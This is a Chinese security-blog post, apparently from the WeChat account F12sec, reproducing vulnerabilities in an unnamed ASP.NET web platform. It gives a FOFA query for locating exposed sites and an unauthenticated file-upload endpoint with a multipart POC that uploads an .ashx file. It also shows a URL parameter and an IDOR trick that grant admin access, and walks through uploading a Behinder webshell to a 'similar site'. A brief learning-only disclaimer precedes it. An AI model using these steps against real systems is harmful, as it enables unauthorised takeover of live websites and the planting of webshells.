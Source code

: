 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247484741&idx=1&sn=62989d6b4d1540a8ec829f665e42e033&chksm=c07fbeb1f70837a7577a86d3687a8c8fa177eb5115e14b7fe0727b80021baaad6378b3a62c76&scene=132#wechat_redirect)

_**前言**_

  

 **声明：本次测试只作为学习用处，请勿未授权进行渗透测试，****切勿用于它用途！**

_**_**Part.1**_ 漏洞详情**_

  

月球师傅掏出了自己的大宝贝，甩了出来，猫猫有什么坏心思呢~~

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGZec2eaTlnicX8uDNhP2PNFW8SuWurpoicZqquXm7oVfoSRqCK3P859DQ7eibsW0KDpZEGwL1MxaBp8w/640?wx_fmt=png)

FoFA 语法:

/Widget/common/Service/CommonWidgetService.asmx/Categorylist

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGZec2eaTlnicX8uDNhP2PNFWibG8jsD0DzyGhRicnvzUCstgzyr1DUZ9PMwIlNo6box7rTlaFib1lWibcg/640?wx_fmt=png)

漏洞位置

/SmartMobile/micropage/UpLoad/FilesUpLoadHandler.ashx

**任意文件上传：**

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGZec2eaTlnicX8uDNhP2PNFWApRzdagM3zibdNt0fKEviaib9mTXBtFQwdxU9YSRgfHv46J2k5SibibOHsw/640?wx_fmt=png)

返回就是存在

构造 POC

```
Post:
 
------WebKitFormBoundaryxJBEcLK1xdylqBhP
Content-Disposition: form-data;
 
2222.ashx
------WebKitFormBoundaryxJBEcLK1xdylqBhP
Content-Disposition: form-data;
Content-Type: image/jpeg
 
------WebKitFormBoundaryxJBEcLK1xdylqBhP—
```

通过构造的 POC 成功上传文件，并返回上传成功后的路径。

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGZec2eaTlnicX8uDNhP2PNFWMIZt0mDibw6SF3daW1ApsseOCr2jDeQ82nSboWKlUqZkm326nrH4yXA/640?wx_fmt=png)

**未授权访问**

/SmartMobile/MobileIndex.aspx?uname=admin&orgId=0

访问连接直接跳转到管理员（有的需要登录有的则不要）

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGZec2eaTlnicX8uDNhP2PNFWYQpNrzXs9LRAWFX304mdEH12EZQdwys9NXeiccmIM6WV4yCPP35yUog/640?wx_fmt=png)

需要登录的提示绑定账号，这时候需要注册一个账号登录。

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGZec2eaTlnicX8uDNhP2PNFWCFwiaS8OScpVHuARicOn4ibGQBN5WMRqlT8stNia0DumAwDg6VynWibcL7w/640?wx_fmt=png)

**提供一次任意用户注册**

用户注册链接: Module/SSO/SJS_Register.aspx

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGZec2eaTlnicX8uDNhP2PNFW3ZmpfNEMibmgpDcsHYqTzejMqibJ6dDuBBc7YS1IibmuKSmAdmyruxv4A/640?wx_fmt=png)

_**_**Part.2 漏洞复现**_**_

  

找到同类型的站点，访问并注册一个账号

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGZec2eaTlnicX8uDNhP2PNFW7SiaSIMiannrmCR7PK0siaXYxJYuric8Aicqdiajk0AGbNqBnBon6AkWTGGA/640?wx_fmt=png)

 注册成功后，登录到用户主页，可以看到开放了许多的功能。

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGZec2eaTlnicX8uDNhP2PNFWhvA9QIwUDiaibw82ngOrfGer1XicesPLfNNPw1t3NERKFxSibSWel2rT2A/640?wx_fmt=png)

访问到个人中心

可以看到这个 URL 通过 GET 的方式传递 user 参数

http://xxx.xxx.xxx/Module/PersonalCenter/Default.aspx?user=test123

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGZec2eaTlnicX8uDNhP2PNFWktKWY3AiccRDzOj8L04PIVXQP5SXsXaYprhI29sORXtSnSv2fgQFwKQ/640?wx_fmt=png)

修改 user=admin，发现界面发生变化，用户变为管理员

http://xxx.xxx.xxx/Module/PersonalCenter/Default.aspx?user=admin

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGZec2eaTlnicX8uDNhP2PNFWTVOib4SuQ1faicCOoEoeibrNRBD0S5QIjzyqTORKbAUa91w5Da6eSSJrQ/640?wx_fmt=png)

在访问

http://xxx.xxx.xxx/SmartMobile/MobileIndex.aspx?uname=admin&orgId=0

到达管理员后台管理界面

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGZec2eaTlnicX8uDNhP2PNFWbleeJCMWYb350iaelIrZSapPJ8eJ0P4Ciaicfr2GG7n6Sia9wUYxsxpOgA/640?wx_fmt=png)

找到图片上传的位置，上传图片，修改 fileType 的参数，发现此处没有任何过滤，

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGZec2eaTlnicX8uDNhP2PNFWDmWKZKdibf0iaszjQviaI8LnzKVDt4H2xVWUGXeWKFgDCPeGZHhiaQ3q8g/640?wx_fmt=png)

 冰蝎上传成功，复现成功。

![](https://mmbiz.qpic.cn/mmbiz_png/EWF7rQrfibGZec2eaTlnicX8uDNhP2PNFWxP4VHHfv9YOtR04slIhX9Hc59dWfZQqxWJx0DxOIIZDscAQ3lK0Vmg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_gif/z1BDHniaudwlfmWtOG25nMTy7Rm8fr8FiaZGaNFeOjQK1wfqWpcrZc3TPvRmyYN2r2qC8JFGuMFEXobVMYp9hQzQ/640?wx_fmt=gif)

扫码二维码

获取更多姿势

F12sec

![](https://mmbiz.qpic.cn/mmbiz_jpg/EWF7rQrfibGZjT4wKhhUiaY0Vfb11FayFhDumgDvFHln8q6rttXdllugQU7ibcLLOxp5H581iayytcnXEPwibEO8yqw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_png/eHpJZ2bXAXdly9aB5q6xe9xjE66TzF3GbwhdOYtfUyyejGYeOcS7L6yn8WP1LflIANPiafT4h0kghD7MGhJkqAA/640?wx_fmt=png)

  

往期推荐  

[漏洞复现 | 记一次通用漏洞 0](http://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247484651&idx=1&sn=68bffd56745db9fbf44408efa577b48d&chksm=c07fbf1ff7083609ab12ca47197cd771482c3c0189e07aa19163830251c6b1da47287db06a0a&scene=21#wechat_redirect)  
[实战 | 记一次利用 mssql 上线](http://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247484628&idx=1&sn=2345aec9a4550a194dc5a28b0c5cd496&chksm=c07fbf20f708363614e51e5525c1aad9b4c8f5a50b391b0c83f11d1073a26d7bb8f4dc3a9fc8&scene=21#wechat_redirect)

[实战 | 利用无线渗透加内网渗透进行钓妹子 (上篇)](http://mp.weixin.qq.com/s?__biz=Mzg5NjU3NzE3OQ==&mid=2247484701&idx=1&sn=39a82092e0c16d219b50d5ecd1274674&chksm=c07fbee9f70837ffe6f35b87bea98da39379b1e94d5cb4ce0cbc18c2b008b1bcef20954aefb6&scene=21#wechat_redirect)